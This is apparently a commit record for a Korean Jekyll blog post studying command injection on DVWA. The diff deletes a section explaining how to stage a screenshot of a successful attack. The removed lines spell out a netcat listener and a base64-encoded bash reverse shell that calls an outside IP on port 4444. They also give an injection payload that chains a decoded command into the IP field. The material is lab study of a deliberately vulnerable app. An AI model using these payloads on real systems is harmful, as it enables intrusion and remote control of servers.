

Before and after one commit to HamaP0/HamaP0.github.io, a Jekyll site: the page built from _posts/2025-09-21-CommandInjection_study.md, in a window 1280 px wide and 1400 px high, scrolled down 2378 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; after the commit the page ends 2766 px from its top, so only the background shows below that.

Commit message:
Update 2025-09-21-CommandInjection_study.md

````diff
--- a/_posts/2025-09-21-CommandInjection_study.md
+++ b/_posts/2025-09-21-CommandInjection_study.md
@@ -56,47 +56,3 @@ categories: [웹 해킹]
 이 방식은 필터링이 복잡할수록 유용하며 `A01` 보고서에서 서버 제어권을 획득할 때 사용된 핵심 기법이다.
 
 <hr class="short-rule">
-
-
-
-
-
-### 시각 자료(이미지) 제작을 위한 스크립트
-
-#### **Base64 인코딩을 이용한 RCE 성공 이미지 제작**
-
-이 이미지는 명령어 필터링을 우회하여 리버스 쉘을 획득하는 전 과정을 보여줍니다.
-
-**1. "준비" 단계 (두 개의 터미널)**
-
-1.  (준비) **공격자 PC(Attacker)**에서 두 개의 터미널 창을 엽니다.
-2.  **첫 번째 터미널 (리스너):** `nc -lvnp 4444` 명령어를 실행하여 리스너를 시작합니다.
-3.  **두 번째 터미널 (인코딩):** 리버스 쉘 페이로드를 Base64로 인코딩합니다.
-    ```bash
-    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
-    # 결과로 나온 긴 문자열(예: YmFzaCAtaSA...)을 복사해 둡니다.
-    ```
-
-**2. "공격" 단계 (웹 브라우저)**
-
-1.  웹 브라우저에서 DVWA의 `Command Injection` 페이지로 이동합니다.
-2.  IP 입력창에 아래와 같은 형식으로 페이로드를 입력합니다. `<...>` 부분에는 위에서 복사한 Base64 문자열을 붙여넣습니다.
-    ```
-    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
-    ```
-3.  `Submit` 버튼을 클릭합니다.
-
-**3. "결과 확인" 및 스크린샷 촬영**
-
-1.  **첫 번째 터미널 (리스너)**을 확인합니다. `connect to...` 메시지와 함께 대상 서버의 쉘 프롬프트가 나타나면 성공입니다.
-2.  `whoami` 명령어를 실행하여 `www-data`가 출력되는 것을 확인합니다.
-3.  **두 번째 터미널 (인코딩)**과 **첫 번째 터미널 (리스너)**이 나란히 보이도록 배치하고, 화면 전체를 스크린샷으로 찍습니다.
-
-**4. 최종 이미지 편집**
-
-1.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
-2.  왼쪽(인코딩 터미널)과 오른쪽(리스너 터미널)을 명확히 구분합니다.
-3.  **왼쪽**에서는 Base64로 인코딩된 결과 문자열에 하이라이트를 적용합니다.
-4.  **오른쪽**에서는 성공적으로 획득한 `www-data` 쉘 프롬프트와 `whoami` 결과에 하이라이트를 적용합니다.
-5.  두 하이라이트 사이에 화살표 등을 추가하여 왼쪽의 인코딩된 페이로드가 오른쪽의 쉘 획득으로 이어졌음을 시각적으로 보여줍니다.
-6.  수정된 이미지를 저장하여 게시글에 삽입합니다.
````
